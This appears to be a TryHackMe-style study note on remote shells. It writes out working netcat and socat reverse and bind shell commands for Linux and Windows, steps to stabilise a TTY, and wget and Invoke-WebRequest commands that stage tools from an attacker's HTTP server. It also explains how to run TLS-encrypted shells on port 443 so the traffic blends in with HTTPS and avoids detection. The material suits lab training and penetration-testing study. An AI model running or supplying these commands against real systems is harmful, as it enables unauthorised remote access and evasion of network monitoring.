

# 📌 Shells & Listeners Fundamentals

## Reverse vs Bind Shells

### Understanding the Connection Flow

The key difference between reverse and bind shells lies in who initiates the connection:



Understanding this fundamental difference matters because it affects which approach will work in different network environments and security configurations.

### Reverse Shell Example (Linux)

In a reverse shell, you start a listener on your attacking machine, then the target connects to you. This is the most common approach because outbound connections are typically less restricted than inbound ones.

Start a basic listener on your attacking machine:

```bash
attacker@tryhackme:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444
```

Then execute a connection command on the target that calls back to your listener:

`target@victim:~$ nc CONNECTION_IP 4444 -e /bin/bash`

Your listener receives the connection and provides shell access to the target:

```bash
Connection received on 10.6.47.58 50983
whoami
shell-user
```

### Bind Shell Example (Linux)

In a bind shell, the target creates a listener attached to a shell, and you connect to it from your attacking machine. This reverses the connection direction but may be blocked by firewalls that restrict inbound access.

On the target machine, create a listener that offers shell access:

```bash
target@victim:~$ nc -lvnp 8080 -e /bin/bash
listening on [any] 8080 ...
```

From your attacking machine, connect to the target's listener:

```bash
attacker@tryhackme:~$ nc 10.49.186.3 8080
whoami
shell-user
```

### Why Direction Matters

The choice between reverse and bind shells depends on the network security configuration:

#### Reverse shells work best when:

- The target can make outbound connections (most common scenario)
- Firewalls block inbound connections to the target
- The target is behind NAT (Network Address Translation) without port forwarding
- You want to control the listening port on your own machine

#### Bind shells work best when:

- Outbound connections from the target are heavily restricted
- You cannot accept inbound connections on your machine
- The target has accessible ports (through firewall rules or port forwarding)
- You need multiple people to access the same shell

Reverse shells are used far more frequently because most networks allow outbound traffic but restrict inbound access. However, understanding both approaches gives you options when one method is blocked.

## Tools for Remote Shells

### Netcat

**Netcat (nc)** is the Swiss Army knife of networking tools and your first choice for quick shell connections. Think of it as a simple pipe that can either listen for incoming connections or reach out to connect to another system. When someone connects, netcat passes data back and forth between the network socket and your terminal.

### rlwrap

**Rlwrap** (readline wrapper) solves one of netcat's biggest annoyances: the lack of command history and line editing features. Raw Netcat shells don't respond to arrow keys, don't remember previous commands, and don't support tab completion. Rlwrap wraps around Netcat to add these missing readline features.

### Socat

**Socat** (SOcket CAT) does everything netcat does, plus a lot more. Where netcat just passes raw bytes between two endpoints, socat can manipulate the data flow, allocate terminals, and encrypt connections.

The feature you'll care about most is PTY (pseudo-terminal) allocation. A PTY makes your shell behave like a real terminal session, with proper signal handling, job control, and support for interactive programs like text editors. Socat can also encrypt connections using SSL/TLS, making your shell traffic indistinguishable from legitimate HTTPS communications.

Socat shines when you need stability and stealth. Its PTY allocation creates shells that run complex interactive programs, handle Ctrl+C interrupts properly, and support job control features like background processes. The encryption capabilities help evade network monitoring and detection systems that might flag plaintext shell traffic.

The main drawback is that socat isn't always pre-installed on target systems, unlike netcat. However, static binaries can often be transferred during your initial access phase.

### Msfvenom & Metasploit multi/handler

**Msfvenom and Metasploit's** multi/handler provide enterprise-grade capabilities for payload generation and handling. Msfvenom generates payloads in various formats (executables, scripts, shellcode) for different platforms, while multi/handler provides a sophisticated listener that understands advanced payload protocols.

This combination excels when you need cross-platform compatibility, staged payloads, or advanced post-exploitation features like Meterpreter. Staged payloads are particularly useful in environments with size restrictions; they download and execute the full payload after establishing an initial connection. Meterpreter provides an advanced shell environment with built-in modules for privilege escalation, lateral movement, and data exfiltration.

The Metasploit framework also automatically handles payload encoding and evasion techniques, helping bypass antivirus and endpoint detection systems. Multi/handler can manage multiple concurrent sessions and provides session management features that simple netcat listeners cannot match.

The trade-off is complexity and resource usage. Metasploit requires more setup time and system resources than lightweight tools like Netcat, making it better suited for planned operations rather than quick opportunistic access.

### How These Tools Complement Each Other

These tools form a progression from simple to sophisticated, each building on the capabilities of the previous:

- Netcat provides the foundation for quick, universal shell connectivity that works everywhere. Use it to prove that shell access is possible and for rapid initial access scenarios.
- Rlwrap improves the netcat experience by adding essential usability features. Wrap your netcat listeners with rlwrap whenever you expect to use the shell for more than basic command execution.
- Socat delivers professional-grade shell stability and security. Upgrade to socat when you need reliable long-term access, interactive program support, or encrypted communications.
- Msfvenom and multi/handler provide enterprise capabilities for complex scenarios. Choose this combination when you need cross-platform payloads, advanced evasion, or post-exploitation frameworks.

## Working with Netcat

### Starting a Listener

Run netcat in listen mode on your attacking machine to catch a reverse shell. The key options are:

- `l`: Listen for an inbound connection (server mode)
- `v`: Verbose output (display connection information)
- `n`: Skip DNS lookups (numeric IPs only)
- `p`: Specify the port to listen on

```bash
attacker@tryhackme:~$ sudo nc -lvnp 4444
listening on [any] 4444 ...
```

### Establishing a Reverse Shell

On the target, instruct netcat to connect to your listener and execute a shell. With netcat variants that support `-e`, this is straightforward:

`target@victim:~$ nc CONNECTION_IP 4444 -e /bin/bash`

Once connected, your listener will display something like:

```bash
connect to [CONNECTION_IP] from (UNKNOWN) [TARGET_IP] 52134
whoami
www-data
hostname
victim-box
pwd
/var/www/html
```

### Connecting to a Bind Shell

A bind shell reverses the scenario: the target listens for incoming connections and executes a shell, while you connect to it. This is useful when outbound connections are blocked. On the target:

```bash
target@victim:~$ nc -lvnp 8080 -e /bin/bash
listening on [any] 8080 ...
```

Then, on your machine, connect to the target's listener:

```bash
attacker@tryhackme:~$ nc MACHINE_IP 8080
whoami
shell-user
id
uid=1000(shell-user) gid=1000(shell-user) groups=1000(shell-user)
```

### Netcat vs Ncat

You may encounter ncat (part of the Nmap project) alongside traditional nc. While they serve similar purposes, ncat offers additional security and features:

- Traditional nc (netcat): Simple, lightweight, widely available. Basic network reading/writing with minimal features.
- ncat: Modern reimplementation with SSL/TLS encryption, proxy support, connection brokering, and better IPv6 handling.

Both work similarly for basic shell operations. Use `ncat --help` to check its extended capabilities, particularly for encrypted connections, which will be covered later in this room.

### Other Useful Flags

Netcat has many other options. Here are a few you may encounter:

- u: Use UDP instead of TCP (rare for shells due to unreliability)
- w: Set a connection timeout
- q: After EOF on stdin, wait seconds before closing

Consult the man page (`man nc`) or run `nc -h` to see which flags your version supports.

## Working on Socat

### Basic Reverse Shells with socat

The basic format is `socat [options] address1 address2`, where data flows between the two addresses.

Start a listener on your attack box using the TCP-L (TCP Listen) address type. The dash (-) represents standard input/output, meaning socat will display incoming data on your terminal:

`attacker@tryhackme:~$ socat TCP-L:443 -`

On the target, connect back using `TCP:host:port` to specify the destination and `EXEC:` to execute a program when the connection is established. The `bash -li`creates a login interactive shell that provides a more complete environment than a basic shell:

`target@victim:~$ socat TCP:CONNECTION_IP:443 EXEC:"bash -li"`

### Windows Reverse Shells

Socat works equally well on Windows systems. Replace `bash` with Windows shell executables and add the pipes option to handle Windows named pipes for input/output redirection properly:

`C:\> socat TCP:CONNECTION_IP:443 EXEC:powershell.exe,pipes`

Alternatively, you can use `cmd.exe,pipes` for a traditional Command Prompt shell instead of PowerShell.

### Basic Bind Shells with socat

Bind shells reverse the connection direction. The target listens for incoming connections while you connect from your attack machine. This approach works when outbound connections are blocked, but inbound access is available on specific ports.

On the target, use `TCP-L` to listen and `EXEC` to spawn a shell when someone connects:

```bash
target@victim:~$ socat TCP-L:8088 EXEC:"bash -li"
listening on 0.0.0.0:8088 ...
```

From your attack box, you can connect to the target's listener. The TCP:host:port address connects to the remote service, while the dash forwards the connection to your terminal:

Connecting to Socat Bind Shell

```bash
attacker@tryhackme:~$ socat TCP:MACHINE_IP:8088 -
whoami
shell
pwd
/home/shell
```

### Windows Bind Shells

For Windows targets, specify the appropriate shell executable and include the pipes option for proper I/O handling:

Windows Bind Shell
`C:\> socat TCP-L:8088 EXEC:cmd.exe,pipes`

## Shell Stabilisation

### Spawning a TTY with Python

Before starting, note your local terminal dimensions — you'll need them once you're inside the stabilised shell. Run `stty size` on your attacker machine and keep the values handy:

```bash
attacker@tryhackme:~$ stty size
50 220
```

Create a Netcat reverse shell on the target. Start a listener on your attacker machine:

```bash
attacker@tryhackme:~$ nc -lvnp 4444
listening on [any] 4444 ...
```

Then trigger the reverse shell from the target:

```bash
target@victim:~$ nc CONNECTION_IP 4444 -e /bin/bash
```

Once you have your basic netcat shell, upgrade it by importing Python's pty module and spawning a bash process:

```bash
attacker@tryhackme:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
target@victim:~$
```

The `pty.spawn()` function creates a pseudo-terminal and executes the specified program (`/bin/bash`) within it. This immediately gives you a more interactive shell where programs behave normally.

Next, set the terminal type environment variable so that programs can format their output correctly. The `xterm` terminal type is widely supported and provides good compatibility:

```bash
target@victim:~$ export TERM=xterm
```

To complete the stabilisation, you need to configure your local terminal. You can suspend the shell with Ctrl+Z, then run `stty raw -echo` on your attacker's machine. The `raw` option disables input processing (sends all keystrokes directly), while `-echo` prevents your machine from displaying what you type (avoiding duplicate characters). Resume the shell with `fg`:

```bash
^Z
[1]+  Stopped                 nc -lvnp 4444
attacker@tryhackme:~$ stty raw -echo
attacker@tryhackme:~$ fg
```

### Wrapping your Listener with rlwrap

Install rlwrap if it's unavailable (`sudo apt install rlwrap`), then wrap your netcat listener. The `rlwrap` command intercepts input/output and adds readline features before passing data to netcat:

```bash
attacker@tryhackme:~$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
```

When the reverse shell connects, follow the same Python stabilisation steps: spawn a TTY with `pty.spawn("/bin/bash")`, export `TERM=xterm`, and configure your local terminal with stty raw -echo. The difference is that rlwrap now provides command history (up/down arrows) and basic tab completion, making the shell much more usable for extended sessions.

### Upgrading to a Fully Interactive Shell with Socat

For the most stable shell experience, socat can allocate a proper pseudo-terminal with complete signal handling and job control. If socat isn't installed on the target, you can transfer it through your existing shell connection.

First, serve the socat binary from your attacker machine. Python's built-in HTTP server makes file transfers simple. The `-m http.server` module creates a web server serving files from your current directory:

```bash
attacker@tryhackme:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Download socat to the target through your existing shell. On Linux systems, `wget` fetches files over HTTP. The `-O` option specifies the output filename, and `chmod +x` makes the binary executable:

```bash
target@victim:~$ wget http://CONNECTION_IP/socat -O /tmp/socat
target@victim:~$ chmod +x /tmp/socat
```

### Windows File Transfer

On Windows targets, use PowerShell's `Invoke-WebRequest` cmdlet to download files. The `-Uri` parameter specifies the source URL, while `-OutFile` sets the destination path:

```bash
PS> Invoke-WebRequest -Uri http://CONNECTION_IP/socat.exe -OutFile C:\Windows\Temp\socat.exe
```

### Establishing the Socat TTY Shell

Once socat is available, create a fully interactive shell. Start a listener that connects to your attacker's machine. The FILE:`tty` address type connects to your terminal, `raw` mode passes all input directly, and `echo=0` disables local echo:

`attacker@tryhackme:~$ socat TCP-L:5555 FILE:`tty`,raw,echo=0`

On the target, connect back with full TTY options. The `EXEC:"bash -li"` spawns a login interactive shell, while the additional options create a proper terminal environment:

```bash
target@victim:~$ /tmp/socat TCP:CONNECTION_IP:5555 \
EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This socat command creates the most stable shell possible:

- `pty`: Allocates a pseudo-terminal for proper program interaction
- `stderr`: Forwards error output so you see all program messages
- `sigint`: Enables Ctrl+C signal handling for process interruption
- `setsid`: Creates a new session for proper job control
- `sane`: Applies standard terminal settings for consistent behaviour

At this point, the shell is as good as a direct SSH login. You can run vim, background processes with Ctrl+Z, and use tab completion normally.

## Encrypted Shells

### Certificate Generation and Management

SSL/TLS encryption requires certificates to establish secure connections. For shell purposes, you can create self-signed certificates that provide encryption without a certificate authority. The target system will accept these certificates when verification is disabled.

Generate a certificate and private key using OpenSSL. The `req` command creates a certificate signing request, `--newkey rsa:2048` generates a 2048-bit RSA key pair, `-nodes` creates an unencrypted private key (no passphrase), and `-x509` outputs a self-signed certificate instead of a request:

```bash
attacker@tryhackme:~$ openssl req -newkey rsa:2048 -nodes \
-keyout shell.key -x509 -days 365 -out shell.crt
Generating a RSA private key
.......+++++
............................+++++
writing new private key to 'shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
[...certificate details prompts...]
```

The `-days 365` option sets the certificate validity period to one year. For the certificate prompts, you can enter any values or press Enter to use defaults, the content doesn't matter for shell encryption purposes.

Combine the certificate and private key into a single PEM file that socat can use. The PEM format contains both components in one file for easier management:

```bash
attacker@tryhackme:~$ cat shell.key shell.crt > shell.pem
attacker@tryhackme:~$ ls -la shell.*
-rw-r--r-- 1 attacker attacker 1350 Dec 15 10:30 shell.crt
-rw------- 1 attacker attacker 1708 Dec 15 10:30 shell.key
-rw-r--r-- 1 attacker attacker 3058 Dec 15 10:30 shell.pem
```

### Encrypted Reverse Shells

Encrypted reverse shells use socat's OpenSSL support to wrap connections in TLS. Start an SSL-enabled listener using the `OPENSSL-LISTEN` address type. The `cert=shell.pem` option specifies your certificate file, while `verify=0` turns off client certificate verification:

```bash
attacker@tryhackme:~$ socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0 -
listening on 0.0.0.0:443
```

On the target, connect back using the `OPENSSL` address type to establish an encrypted connection. The `verify=0` option tells socat to accept self-signed certificates without validation:

`target@victim:~$ socat OPENSSL:CONNECTION_IP:443,verify=0 EXEC:/bin/bash`
`socat OPENSSL:192.168.133.210:443,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

The connection now appears as SSL traffic to network monitoring tools. All shell commands, responses, and file transfers are encrypted in transit, preventing security systems from inspecting their content.

### Windows Encrypted Reverse Shells

Windows targets require different shell executables but use the same SSL syntax. Use cmd.exe or powershell.exe with the pipes option for proper I/O handling:

`C:\> socat OPENSSL:CONNECTION_IP:443,verify=0 EXEC:powershell.exe,pipes`

### Encrypted Bind Shells

Encrypted bind shells reverse the connection direction while maintaining SSL encryption. The target listens with SSL enabled, and you connect from your attack machine. This approach works when outbound SSL is blocked, but inbound HTTPS connections are permitted.

Create an SSL listener on the target that spawns a shell when connections arrive. You'll need to transfer your certificate file to the target first. Serve it from your attacker machine using Python's HTTP server:

```bash
attacker@tryhackme:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then download the certificate on the target:

`target@victim:~$ wget http://CONNECTION_IP/shell.pem -O /tmp/shell.pem`

Start the encrypted bind shell listener using the transferred certificate:

```bash
target@victim:~$ socat OPENSSL-LISTEN:8443,cert=/tmp/shell.pem,verify=0 EXEC:"bash -li"
listening on 0.0.0.0:8443
```

Connect to the encrypted bind shell from your attack machine. The connection uses SSL client mode to connect to the target's SSL server:

```bash
attacker@tryhackme:~$ socat OPENSSL:10.49.178.225:8443,verify=0 -
target@victim:~$ whoami
victim-user
target@victim:~$ id
uid=1000(victim-user) gid=1000(victim-user) groups=1000(victim-user)
```

### Windows Encrypted Bind Shells

For Windows targets, transfer the certificate file using PowerShell and create an SSL listener with the appropriate shell executable:

```bash
PS> Invoke-WebRequest -Uri http://CONNECTION_IP/shell.pem -OutFile C:\Windows\Temp\shell.pem
PS> socat OPENSSL-LISTEN:8443,cert=C:\Windows\Temp\shell.pem,verify=0 EXEC:cmd.exe,pipes
```

### Encrypted TTY Shells

Combine SSL encryption with full TTY functionality for the most secure and usable shell experience. Start an encrypted listener that connects to your terminal with TTY support:

`attacker@tryhackme:~$ socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0`

On the target, connect with full TTY options while using SSL encryption. This provides both security and usability:

```bash
target@victim:~$ socat OPENSSL:CONNECTION_IP:443,verify=0 \
EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

Now you have encryption and a proper TTY over a single connection. Traffic looks like normal HTTPS to anyone watching, and the shell works like a direct login.

### Operational Considerations

Port selection matters in real engagements. Port 443 (HTTPS) is the safest bet since it's expected to carry SSL traffic. Ports 8443 or 9443 also look normal for web services. Anything unusual will attract attention.

Certificates can be generated on the fly, but pre-generating them saves time. For longer engagements, fill in realistic organisational information to make the certificate less suspicious if inspected.

Modern systems have minimal performance impact, but encrypted shells use slightly more CPU and bandwidth than plaintext connections. This rarely affects practical operations but may be noticeable on resource-constrained embedded systems.

### Troubleshooting SSL Connections

If SSL connections fail, first verify that both endpoints support OpenSSL. Then, check socat's SSL capabilities with socat -V and look for OpenSSL support in the feature list.

Certificate path issues are common. Ensure the certificate file exists and is readable by the socat process. Use absolute paths when in doubt, and verify file permissions allow access.

For "certificate verify failed" errors, confirm that both endpoints use verify=0. Self-signed certificates require verification to be disabled for them to function correctly.

### Conclusion

You can now catch, stabilise, and encrypt remote shells on both Linux and Windows targets. Here's what we covered:

- **Reverse vs bind shells** and when each approach works, given different firewall configurations.
- **Netcat and socat** for establishing shell connections, from quick-and-dirty listeners to fully interactive PTY sessions.
- **Shell stabilisation** using Python's pty module, rlwrap, and socat's TTY allocation to turn a brittle raw shell into something usable.
- **Encrypted shells** with socat's OpenSSL support to wrap traffic in TLS and blend in with normal HTTPS.

A shell on its own is just a starting point. The real value comes from combining these techniques: catch a reverse shell with netcat, stabilise it with Python and stty, then upgrade to an encrypted socat connection for long-term access.

